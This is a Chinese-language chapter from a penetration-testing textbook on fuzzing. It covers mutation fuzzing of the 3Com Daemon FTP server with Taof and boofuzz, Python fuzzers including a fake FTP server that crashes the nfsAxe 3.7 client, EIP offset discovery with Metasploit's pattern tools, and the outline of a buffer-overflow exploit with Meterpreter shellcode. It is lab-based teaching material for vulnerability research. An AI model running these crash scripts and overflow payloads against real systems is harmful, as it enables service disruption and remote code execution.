


# 第十四章: 模糊测试技术

什么是模糊测试？你已经在本书的其他部分做过一些模糊测试。当我们探索我们易受攻击的 C 程序时，我们会启动 GNU 调试器（GDB），并观察寄存器的状态，同时不断向用户提示输入更多的数据。我们在每次迭代中都会修改输入，**尝试**引发崩溃或至少一些异常行为。程序的输入可以在某种意义上是格式错误的——无效的格式、添加意外或无效的字符，或者简单地提供过多的数据。模糊测试的目标甚至不一定是一个程序——它可以是实现某种特定协议的网络服务，甚至是生成特定格式文件（如 PDF 或 JPG）的编码器。如果你曾经从事过软件开发，那么这个概念应该非常熟悉。模糊测试可以找到那些可能负面影响用户体验的缺陷，但对于安全从业人员来说，它是一种发现可利用漏洞的方式。

在本章中，我们将深入探讨模糊测试作为一种漏洞研究方法。我们将研究两个具有溢出漏洞的真实程序，但不会透露具体细节。最终，发现编写有效漏洞利用程序所需事实的工作将由我们来完成。

在本章中，我们将涵盖以下主题：

+   针对服务器的网络变异模糊测试

+   编写 Python 模糊测试程序，进行客户端和服务器测试

+   调试目标程序，以便在模糊测试过程中监控内存

+   使用偏移量发现工具来找到适合我们有效载荷的大小

# 技术要求

本章你将需要以下工具：

+   Kali Linux

+   安装了 WinDbg 的 32 位 Windows 7 测试虚拟机

+   Taof for Windows

+   nfsAxe FTP 客户端版本 3.7（适用于 Windows）

+   3Com Daemon 版本 2r10（适用于 Windows）

# 网络模糊测试 – 使用 Taof 代理的变异模糊测试

到目前为止，本书一直在探讨可以应用于现场的攻击视角。另一方面，模糊测试（Fuzzing）并不是通常意义上的攻击。它是一种测试方法论；例如，质量保证（QA）工程师经常对用户界面进行模糊测试。那么，作为渗透测试人员，我们何时会利用模糊测试呢？举个例子，假设你刚刚完成了对客户系统的某些侦察工作。你发现有一个服务暴露在互联网上，并且发现它在横幅抓取中显示了其完整的版本信息。你**不**会想要在生产网络上开始对这个服务进行模糊测试，但你可以获取一份副本并利用你从目标系统中获得的信息将其安装到你的实验室中。我们将看一看一些网络模糊测试，你很可能会在和客户合作的前几天后，在酒店房间里进行这些测试。

如其名所示，*突变模糊测试* 采用给定的数据集，并逐步对其进行突变。在这里，我们将使用一个专门的工具做类似的事情，这个工具能够让你成为一个真正的艺术家。Taof 是用 Python 编写的，因此一旦你安装了依赖项，它就可以在 Linux 上运行。在本次演示中，我将会在 Windows 上运行它。

在我们的演示中，我们将目标 FTP 服务器运行在单独的 Windows 7 主机上，将代理模糊测试器运行在另一个主机上。然而，如果你没有两个 Windows 7 虚拟机的访问权限，你也可以使用单一主机进行相同的测试。

## 配置 Taof 代理以连接到远程服务

让我们从配置目标服务开始。这对于我们的演示来说很简单：只需执行 3Com Daemon，它会自动启动其服务器。在左侧，你将看到不同的服务；选择 **FTP 服务器**，然后查看右侧的状态窗口，确认该服务是否正在监听 `21` 端口。在我们的演示中，我们可以看到监听器已经检测到了本地分配的地址，也就是 `192.168.108.189`。现在，我们知道该将代理指向哪里：



图 14.1 – 3CDaemon 准备接收请求

现在，我们可以切换到 Taof 并点击 **数据获取**，然后选择 **网络设置**。你可以将本地服务器地址保持为 `0.0.0.0`，但是可以设置端口为你喜欢的任何值，并记住它，方便在下一步连接到代理时使用。在 **远程设置** 中输入来自 3Com Daemon 状态窗口的 IP 地址和端口：


图 14.2 – Taof 代理配置

一旦你点击 **确定**，你将能够在点击 **开始** 之前验证你的设置。此时，代理已经在运行。

## 通过代理进行模糊测试 – 生成合法流量

这个想法很简单——Taof 现在作为一个普通的代理服务器在运行，代表我们处理与远程服务之间的流量。这是为了让 Taof 在突变模糊测试阶段之前学习期望的流量模式。现在，我们只需要通过任何 FTP 客户端连接到代理。在我们的示例中，使用内置的 FTP 客户端，并指定远程地址为 `127.0.0.1`，端口为 `1066`，这让我们连接到监听 `192.168.108.189` 上 `21` 端口的服务器。

在今天的时代，如果你在 Windows 实验室中使用不安全的协议，而 Windows 防火墙以默认配置运行，那么工作可能会变得非常令人沮丧。你可能需要在进行这些测试之前禁用它。

我们打算发送正常的身份验证数据，所以可以尝试以**管理员**、**访客**、`pickles`等身份登录 —— 随便你选择。无论如何，这都不重要，因为我们想要模糊测试身份验证过程。当你发送了一些数据后，停止 Taof 代理并返回到**请求**窗口。你会看到一个**请求列表**，其中每个条目都有相关内容。浏览这些请求，了解发生了什么。查看 3Com Daemon 的状态窗口，看看这些请求是如何被处理的，也是一个好主意。

现在，让我们通过设置模糊点来确定突变将发生的位置。根据你想要测试的内容，从列表中选择一个请求。在我们的示例中，我们想要搞乱身份验证，因此我选择了我的客户端发送 `USER pickles` 命令的时刻。选择后，点击**设置模糊点**：


图 14.3 – 从捕获的请求列表中选择模糊点

如果你像我一样，可能会觉得 Taof 在首次启动时看起来不怎么样。它真正的“劲爆”部分就在下方的**模糊请求**对话框中。（我总是这样认为 Cain —— 一个看起来不起眼的 GUI，但在引擎盖下却蕴含着强大的力量。话题有点跑偏了。）在这个框中，我们可以看到原始的二进制请求的十六进制表示，以及应用层显示的 ASCII 形式。试着高亮选择请求的部分 —— `From` 和 `To` 框标识了模糊点的字符位置范围。此外，注意我们可以执行四种不同的测试 —— 让我们保留启用的三个溢出测试：


图 14.4 – 配置模糊请求

直觉告诉我，我将从完整的字段开始：`0` 到 `14`。在我们的示例中，我只是想跳过细节，直接让服务崩溃。点击**添加**，然后**确定**，再点击**模糊**：



图 14.5 – 观看我们的目标在一次模糊请求中崩溃

塔哥击败！我们看到屏幕上显示了**+ 缓冲区溢出**，随后不断尝试联系服务器，但没有成功。我们知道这个 FTP 服务器存在缓冲区溢出漏洞。然而，我们不知道如何利用这个漏洞。在这一点上，我们需要一个工具，它可以发送有效负载以崩溃服务，并以某种方式让我们恢复到 EIP 的偏移量。我知道你心中的黑客在说什么 —— *为什么不在 Python 中编写呢？* 哇，听你这么说我松了一口气。

# 使用 Kali 和 Python 进行实战模糊测试

这只是我的个人看法，但我认为编写我们自己的模糊测试脚本是必要的。任何编程语言都允许我们构建特殊的有效负载，但 Python 是我个人最喜欢的语言，用于与套接字和文件进行交互。让我们试着理解协议背后发生的事情，然后构建可以按预期方式进行交互的 Python 脚本。如果我们的脚本能“说得通”，目标服务器将乐意接受我们的有效负载。首先让我们看一下脆弱的服务器。

## 从 Taof 用 Python 的最后一步开始——模糊测试脆弱的 FTP 服务器

我们配置 Taof 对发送到 3Com Daemon 的 `USER anonymous` 请求进行模糊测试，并看到它崩溃了。我们知道两端发生了什么，但我们需要理解网络中发生了什么。没有比 Wireshark 更好的工具来完成这项任务。设置一个嗅探会话，然后再次运行测试。过滤掉 FTP 通信，看看会话的内容：


图 14.6 – 使用 Wireshark 跟踪 FTP 会话

注意，在完成三次握手并建立连接后，服务器发出的第一个通信是 FTP 220 消息。客户端回复 `USER anonymous` 请求，正如任何 FTP 服务器预期的那样，返回了 331 消息。接着是 `PASS` 命令，得到 230 消息（如果服务器允许匿名登录的话）。不要打瞌睡——这段特定的顺序对我们来说很重要，因为我们正在用 Python 构建套接字。你可能还记得 *第八章*，《Python 基础知识》一章中，我们用新建的套接字连接到服务器并发起了通信。

我们必须告诉脚本在发送任何数据之前等待服务器的问候。节省我们大量时间的是，事实上，我们的模糊测试工具通过`USER anonymous`请求让服务器崩溃——这仅仅是建立会话后的第二个数据包！因此，我们可以用一个非常简短的脚本来解决——在我这里是 10 行。（忘掉最终的状态消息，把模糊测试有效负载放入`webclient.send()`函数中，你的代码就只剩下八行了。）让我们来看一下：

```
#!/usr/bin/python 
```

```
import socket 
```

```
webhost = "192.168.63.130" 
```

```
webport = 21 
```

```
fuzz = '\x7a' * 10 
```

```
webclient = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
```

```
webclient.connect((webhost, webport)) 
```

```
webclient.recv(512) 
```

```
webclient.send("USER anonymous" + fuzz) 
```

```
print("\n\n`* Payload sent! *`\n\n")
```

这个可爱的程序应该很熟悉。这里的区别非常简单：

+   我们的第一件事，就是在建立 TCP 会话后立即*接收*服务器的消息。请注意，我们没有为此设置任何变量；我们只是告诉脚本接收最多 512 字节的数据，但并没有提供读取接收到的消息的方法。

+   我们发送服务器期望的内容：`USER anonymous` 请求。不过，我们在构建一个模糊测试工具，所以我们将存储在 `fuzz` 中的字符串连接起来。

现在，我本打算告诉你关于 Taof 在其主目录中创建的日志，借此你可以查看模糊测试工具做了什么以及它何时检测到崩溃——但我不会这么做。我会留给你自己去发现是什么输入导致了服务器崩溃。

## 使用 boofuzz 进行探索

Taof 非常适合轻量级和可视化的模糊测试任务，但既然我们已经在使用 Python，我们需要使用一个更深入的现代工具：`boofuzz`。强大的 Sulley 模糊测试框架已不再支持，因此 boofuzz 是原框架的一个分支和继任者。这个名字向其起源致敬：Sulley 得名于《怪兽公司》中的可爱蓝色怪物，因为它特别毛茸茸。（还是说它是毛发？这是另一本书的讨论。）Sulley 遇到了一位来自人类世界的小女孩，因不知道她的真实名字，便称她为*Boo*，因为她喜欢给人吓一跳的感觉。Sulley 的角色有点像父亲，所以创造者觉得合适将 Sulley 模糊测试框架的继任者命名为 boofuzz。记住这个小小的流行文化细节，或许能为你下次的答题夜带来惊喜。

关于 boofuzz，最重要的是它不像 Taof 那样是一个独立的程序；它是一个模块，你将其导入到脚本中，然后你用它内置的*语法*来*教导*它如何与目标互动。因此，自然而然地，包含 boofuzz 强大功能的 Python 脚本将从以下一行开始：

```
from boofuzz import *
```

我能听到你内心的小黑客在说：*我们可以构建生成器，输出适合我们任务的 boofuzz 脚本！*的确如此，而且网上有很多很棒的例子。如果你想练习 HTTP，可以去看看 Boo-Gen。它会把一个普通的 HTTP 请求作为输入，生成一个适用于目标 HTTP 服务的 boofuzz 脚本。现在，我们先来尝试 FTP，但希望你能从中看到它的巨大潜力。

不用多说，因为 boofuzz 是用 Python 编写的，它非常灵活（不需要切换回你的 Windows 攻击盒子）且易于在 Kali 中获取。现在我们就来实现这一点。记住，你需要 Python 3 的`pip`来完成此操作：

```
apt update && apt install python3-pip
```

```
pip install boofuzz
```

就是这么简单。获取 boofuzz 并不难——但是有些人抱怨初学者很难适应它。所以，让我们来看一下 boofuzz 语法的基础。

## 给你的老师留下深刻印象——使用 boofuzz 语法

就像每个 C 程序必须有一个`main()`函数一样，每个 boofuzz 脚本必须有一个`session`对象。每个模糊测试会话都需要一个目标，而任何目标都需要定义连接类型；这可以分别通过`target`和`connection`对象来完成。每个 boofuzz 脚本就像一个俄罗斯套娃，定义了在会话中我们的连接类型和目标。它看起来大概是这样的：

```
session = Session(
```

```
target = Target(
```

```
connection = TCPSocketConnection("[IP address]", [port])))
```

你可能会在大多数任务中使用`TCPSocketConnection()`类，但你也有其他选择，比如 UDP、原始套接字，甚至串行连接。

当人们抱怨 boofuzz 对初学者相对较难时，我想这与模块本身关系不大，更大程度上是因为每个脚本中需要的*协议定义*。我们需要教会 boofuzz 如何对目标协议进行模糊测试。正如你能想象的，这使得 boofuzz 成为任何处理专有协议的人的必备资源！现在，让我们来看看 FTP。请注意，我们将指向运行在 `192.168.108.211` 上的目标 FTP 服务：


图 14.7 – 一个用于测试 FTP 的 boofuzz 脚本

这些每一项都是消息定义——在这个例子中，我们定义了 `USER`、`PASS` 和 `STOR`，每个定义都有子项，指明消息的实际内容。我们将通过之前创建的 `session` 对象调用这些定义，然后调用 `session.fuzz()`：


图 14.8 – 启动模糊测试

一旦你用 Python 3 启动了新的脚本，终端窗口会立刻“爆炸”：


图 14.9 – 从命令行运行 Boofuzz

啊！发生了什么？这是 boofuzz 在运行，并且详细地向你报告每一步。肯定需要一些全局视角来查看。在所有这些噪音中，你可能错过了，但日志中的第一行是 **信息：Web 界面可以在 http://localhost:26000 找到**。哦，谢谢上帝！让我们在模糊器工作时查看一下它。


图 14.10 – 从控制页面运行 Boofuzz

通过这一点，我们看到了 boofuzz 的强大功能和实用性。正如我们所见，工具假设你知道自己在做什么，并且理解协议。也许你有一份 SCADA 环境中某个专有协议的 Wireshark 数据包？boofuzz 是为数不多的工具之一，它允许你通过简单的 Python 风格的目标协议描述，构建一个全面的模糊测试。

让我们总结一下客户端在可模糊服务器上的视角，并查看当与可模糊客户端通信时，服务器所看到的内容。

## 另一方 – 模糊测试易受攻击的 FTP 客户端

我们可以作为客户端运行模糊器来测试服务，但让我们保持开放的心态——我们可以模糊任何接收我们输入的机制。尽管客户端发起与服务器的对话，但客户端仍然作为对话的一部分接受输入。Taof 允许我们扮演客户端来模糊测试服务——这次，我们测试的是客户端，因此我们需要运行提供模糊输入的服务。

我们已经知道，适用于 Windows 的 nfsAxe FTP 客户端版本 3.7 存在漏洞。现在，让我们扮演一个漏洞发现者的角色，对这个客户端进行模糊测试。我们的 Windows 7 测试盒已经准备好，nfsAxe 客户端也已安装。启动客户端，看看里面的内容：


图 14.11 – 配置易受攻击的 FTP 客户端

注意，我们可以指定会话凭据，或者选择**匿名**来使客户端立即使用`anonymous:guest`登录（前提是服务器支持）。为了简化测试，我们将针对这种行为进行测试。所以，我们知道我们需要一个 FTP 服务器，但它需要对任何输入做出响应，无论其有效性如何，因为目标是将数据发送回去，看看客户端内部发生了什么。还有什么比用 Python 脚本模拟 FTP 服务器更好的方法呢？

## 使用 Python 编写一个简单的 FTP 模糊测试服务

回到*第八章*，*Python 基础知识*，我们仅用核心的 socket 和监听端口功能构建了一个服务器骨架。我们还介绍了一种快速运行某个程序的方法（好吧，直到遇到某个事件，比如中断）– `while True`。为了我们的模糊测试 FTP 服务器，我们会做些不同的事情，因为我们需要模拟一个与客户端通信的合法 FTP 服务器的外观。我们还将引入 Python 中的`try/except`结构，以便我们能够处理错误和中断。

启动`vim fuzzy.py`并输入以下程序：

```
#!/usr/bin/python3 
```

```
import socket 
```

```
import sys 
```

```
host_ip = '0.0.0.0' 
```

```
host_port = 21 
```

```
try: 
```

```
    i = int(input("\n\nHow many bytes of fuzz?\n\n:")) 
```

```
except ValueError: 
```

```
    print("\n\n* Exception: Byte length must be an integer *")
```

```
    sys.exit(0) 
```

```
fuzz = b"\x7a" * i 
```

```
try: 
```

```
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
```

```
    server.bind((host_ip, host_port)) 
```

```
    server.listen(1) 
```

```
    print("\n\n` Phuzzy Phil's FuzzTP `\nServer is up.\nListening at %s on port %d" % (host_ip, host_port))
```

```
    print("Fuzzing exploit length: %d bytes" % len(fuzz))
```

```
    client, address = server.accept() 
```

```
    print("Connection accepted from FTP client %s, remote port %d" % (address[0], address[1]))
```

```
    client.send(b"220 Connected to FuzzTP Server by Phuzzy Phil\r\n") 
```

```
    client.recv(1024) 
```

```
    client.send(b"331 OK\r\n") 
```

```
    client.recv(1024) 
```

```
    client.send(b"230 OK\r\n") 
```

```
    client.recv(1024) 
```

```
    client.send(b"220 %s\r\n" % fuzz)
```

```
    print("\n\nFuzz payload sent! Closing connection, exiting server.\n")
```

```
    server.close() 
```

```
    client.close() 
```

```
except socket.error as error: 
```

```
    print("* Error *\n\nDetails:" + str(error))
```

```
    server.close() 
```

```
    client.close() 
```

```
    sys.exit(1) 
```

```
except KeyboardInterrupt: 
```

```
    print("\n\n* Keyboard interrupt received *\n")
```

```
    server.close() 
```

```
    client.close() 
```

```
    sys.exit(1)
```

很有趣吧？好吧，让我们看看我们做了些什么：

+   第一个`try/except`部分允许用户定义模糊测试的有效载荷。注意，我们通过`int(raw_input())`来获取输入。如果`raw_input()`返回的是一个字符串，那么`int()`会返回一个值错误，我们可以通过`except ValueError`来处理这个错误。这只是一些漂亮的代码，不是必需的，对于时间紧迫的渗透测试人员来说，我敢打赌你会直接在代码中定义字节长度，并在 Vim 中根据需要进行修改。

+   我们将模糊测试的有效载荷声明为`fuzz`，其字节为`\x7a`。你可以使用任何你喜欢的字符，但我最近有点困，所以我决定使用*z*。现实生活中我拿不到*z*，不如把它塞进易受攻击的缓冲区里。

+   现在，来到了熟悉的部分，任何熟悉 Python 中 socket 的人都会知道 – 我们通过`socket.socket(socket.AF_INET, socket.SOCK_STREAM)`创建一个 socket，并将其命名为`server`。然后，我们使用`server.bind()`和`server.listen()`来启动服务器。注意，我将`1`传递给`server.listen()`；我们只是测试单个客户端，所以只需要`1`。

+   如果你用 FTP 客户端或 netcat 连接到我们的模糊小服务器，你会看到一个带有 FTP 服务器响应代码的对话过程。现在，你会看到我们只是在伪造——我们获取一个千字节的响应，然后把它们丢进垃圾桶，一步步发送有效载荷。

+   我们通过两个 `except` 语句块来处理错误或 *Ctrl* + *C*。

陷阱已设置——现在，让我们看看当脆弱客户端不知情地处理我们的模糊负载时会发生什么。

## 使用 Python 模糊测试工具崩溃目标

不再废话，启动你的模糊测试工具，配置它发送 256 字节数据，然后切换到你的 Windows 7 测试机。打开 nfsAxe FTP 客户端，选择 **匿名** 访问，并输入 Kali 的 IP 地址作为 `Host ID`。

连接并观察结果：


图 14.12 – 测试服务器的视角 – 发送的有效载荷

好吧，虽然有点无聊，但它有效。客户端接收到了有效载荷，并在状态窗口中显示了出来：

...


图 14.13 – 脆弱客户端的视角 – 收到的有效载荷

只是为了好玩，再次执行模糊测试工具，这次发送 4,000 字节。客户端会怎么做？


图 14.14 – 脆弱客户端崩溃了！

胜利，胜利，鸡肉大餐！我们只需要准备我们的利用代码，就能开始执行任意代码了。但等等——我现在听到你内心的黑客声音了。*我们知道缓冲区的大小大于 256 字节且小于 4,000 字节。我们是不是得手动在 3,744 字节中找到合适的“甜点”？* 你真是机智过人，但不用担心。我们可以简单地生成一串字符，按照一定模式构造，作为我们的模糊负载，观察在客户端 EIP 上被覆盖的字符，识别这个 4 字节的模式，并计算出偏移量。我们本可以手动操作，但 Metasploit 的那些友好人士早就想到了这个问题。

# 模糊寄存器 – 底层视角

到目前为止我们做的模糊测试研究有效地揭示了这两个 FTP 程序容易受到溢出攻击。现在，我们需要通过观察堆栈来了解幕后发生了什么，方法是发送模糊负载并借助调试器进行分析。当然，这一切都将在调试器下完成。由于我们在 Windows 环境中进行实验，我们会启动 WinDbg 并将其附加到受漏洞影响的软件进程（PID）上。由于我们刚刚玩完 nfsAxe 客户端，我假设它还在你实验室中运行着。不过，保持 3Com Daemon 实验室在手，因为原理是一样的。让我们跟随 Metasploit 的偏移发现工具组合：`pattern_create` 和 `pattern_offset`，一起深入挖掘。

## 使用 Metasploit 工具集计算 EIP 偏移量

进入 Metasploit 中的 `tools` 目录，路径为 `cd /usr/share/metasploit-framework/tools/exploit`。首先，我们生成一个 4,000 字节的负载，因为我们知道这个长度足以覆盖内存中的关键部分：


图 14.15 – 生成模式负载

几秒钟后，一个新的文本文件会出现在你的 `home` 目录中。如果你打开它，你会看到 4,000 字节的垃圾数据。不过别急着下结论——这是一个特别制作的字符串，偏移量查找器 `pattern_offset.rb` 会用它来找到我们的位置。

现在，再次用 Vim 打开你的模糊测试程序，注释掉那些接收输入的行，并设置 `fuzz` 变量。在注释行之后添加以下代码：

```
with open("fuzz.txt") as fuzzfile:
```

```
    fuzz = bytes(fuzzfile.read().rstrip("\n"), "utf-8")
```

请注意，`rstrip()` 只是简单地去除文件末尾的换行符：


图 14.16 – 修改服务器以传送我们的特殊负载

保存修改后的模糊测试程序并重新执行。你会注意到负载现在是 4,000 字节长。但别急——我们暂时不要启动 FTP 客户端（我们已经知道它会崩溃）。正如我们在*第八章*《*Python 基础*》中回顾的那样，让我们将 FTP 客户端与 WinDbg 链接——在 nfsAxe 客户端运行时，打开 WinDbg 并按 *F6* 键附加到正在运行的进程。找到 `ftp.exe` 进程并附加到它：


图 14.17 – 在 WinDbg 中附加到易受攻击的客户端

现在，你准备好连接到模糊测试程序了。在客户端接收到 4,000 字节后，它会崩溃——但我们可以看到 EIP 寄存器被 `0x43387143` 覆盖了。你内心的手动模糊测试者期待的是类似 `0x41414141` 或 `0x7a7a7a7a` 的值，但不要忘记，我们正在使用一个独特的模式来找到偏移量，正如这里所示：


图 14.18 – 崩溃后查看寄存器内容

我知道你现在在想什么——*我们使用的是 Intel 处理器，所以这是一个小端字节序的 EIP 地址，对吧？* 不错，小徒弟。这意味着 `0x43387143` 实际上是 `43 71 38 43`。快速查阅十六进制 ASCII 表，结果显示 `Cq8C` 的模式。记住这个值，待会儿用来进行 `pattern_offset.rb` 的偏移量计算：

```
# ./pattern_offset.rb --length 4000 --query Cq8C
```


图 14.19 – 确定我们的负载到达 EIP 的位置

如你所见，`pattern_offset` 知道要在 `pattern_create` 提供的给定长度内查找什么。

我知道你在想什么，因为我也曾有过同样的疑问：偏移量是否包括覆盖返回地址的 4 个字节？换句话说，如果偏移量为 2,064 字节，我们需要放入 2,060 字节的填充数据吗？再一次，Metasploit 社区的友好黑客们已经考虑到了这一点，并决定让它保持一致。你看到的就是你在利用代码中需要的部分。因此，我们将再次回到我们的 Python 脚本，将我们的垃圾字节乘以`pattern_offset`发现的确切偏移量值，然后连接执行将流向的内存位置的十六进制字符串：

```
fuzz = b"\x7a" * 2064 + b"\xef\xbe\xad\xde"
```

让我们看看在我们的脚本中这个是什么样子的：


图 14.20 – 测试我们的数学计算

再次执行一次，观察 EIP（以及 Windows 错误消息中的**异常偏移量（Exception Offset）：**值）。恭喜！你已经具备了构造一个有效利用的所有必要部分：


图 14.21 – 有效载荷大小已确认！

我们的特别礼物看起来很漂亮，但我们仍然需要做一点数学运算来完成它。

## Shellcode 代数 – 将模糊测试数据转化为利用代码

就像一个兴奋的孩子跑去买糖果，我打开`msfvenom`来生成一些 shellcode。我有一段 Windows Meterpreter 的 shellcode，大小为 341 字节。我的小模糊测试与崩溃脚本有效，但它包含 2,064 字节的*z*，后面跟着目标地址。为了使其生效，我需要将其转换为 NOPs，然后是 shellcode。这变成了一个简单的数学问题：*x* + *341* = *2,064*：


图 14.22 – 在最终计算中考虑 shellcode

使用 Python 编写利用代码的一个好处是，`msfvenom`已经准备好以即取即用的格式输出 shellcode：


图 14.23 – 将代数融入我们的利用代码

我把执行你选择的 shellcode 的任务留给你。祝你好运！

# 总结

本章中，我们介绍了模糊测试作为一种测试方法论和漏洞研究工具。我们从通过网络进行变异模糊测试开始，测试 FTP 服务器对变异认证请求的处理。通过这些信息，我们开发了自动化模糊测试过程的 Python 脚本。在探索 Python 模糊测试时，我们建立了一个模糊测试服务器，向易受攻击的 FTP 客户端提供输入。通过这两个软件，目标是使其崩溃，并了解来自模糊测试器的哪些输入导致了崩溃。最后，我们从低级寄存器内存的角度审视这些崩溃。通过将 WinDbg 附加到易受攻击的进程并在崩溃后检查内存，我们实现了这一目标。通过 Metasploit 的偏移量发现工具，我们演示了如何利用调试和模糊测试编写精确的漏洞利用代码。

在下一章中，我们将深入探讨渗透测试的后期利用阶段，以便了解黑客如何将初步的立足点转变为大规模的系统入侵。

# 问题

请回答以下问题，测试你对本章内容的理解：

1.  模糊测试是较为流行的攻击方式之一，因为它能够导致 shellcode 执行。（对 | 错）

1.  在这个请求中，标识出模糊测试点范围 4 到 8：`USER administrator`。

1.  Windows 崩溃转储中的 `Exception Offset` 值与 __________ 中找到的值相同。

1.  请列出 Metasploit 中用于一起查找溢出中 EIP 偏移量的两个工具。

1.  一名攻击者刚刚发现，如果执行流到达 `0x04a755b1`，他们的 NOP sled 将被触发并一直运行到他们的 Windows shellcode。易受攻击的缓冲区长 2,056 字节，shellcode 长 546 字节。他们使用以下代码行准备 shellcode：`s = '\x90' * 1510 + buf + '\x04\xa7\x55\xb1'`。为什么这个攻击注定会失败？

# 延伸阅读

若想了解更多关于本章内容的信息，请参考以下资源：

+   Taof 下载： [`sourceforge.net/projects/taof`](https://sourceforge.net/projects/taof)

+   Windows 版本 nfsAxe FTP 客户端 3.7 安装： [`www.labf.com/download/nfsaxe.exe`](http://www.labf.com/download/nfsaxe.exe)

+   Windows 版本 3Com Daemon 漏洞安装： [`www.oldversion.com/windows/3com-daemon-2r10`](http://www.oldversion.com/windows/3com-daemon-2r10)
